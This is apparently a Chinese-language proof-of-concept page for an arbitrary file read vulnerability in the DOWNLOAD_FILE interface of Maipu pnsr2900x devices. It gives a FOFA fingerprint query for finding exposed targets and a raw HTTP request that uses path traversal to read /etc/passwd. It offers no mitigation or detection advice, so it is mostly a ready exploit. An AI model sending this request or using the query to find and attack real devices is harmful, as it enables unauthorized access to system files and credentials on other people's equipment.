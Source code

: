# 迈普pnsr2900x系统接口DOWNLOAD_FILE任意文件读取漏洞

迈普pnsr2900x系统接口DOWNLOAD_FILE任意文件读取漏洞，可能导致敏感信息泄露、数据盗窃及其他安全风险，从而对系统和用户造成严重危害。

## fofa

```javascript
body="/assets/css/ui-dialog.css"&& body="/form/formUserLogin"
```

## poc

```javascript
GET /DOWNLOAD_FILE/../../../../../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Connection: keep-alive
```

![image-20241013140738432](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410131407485.png)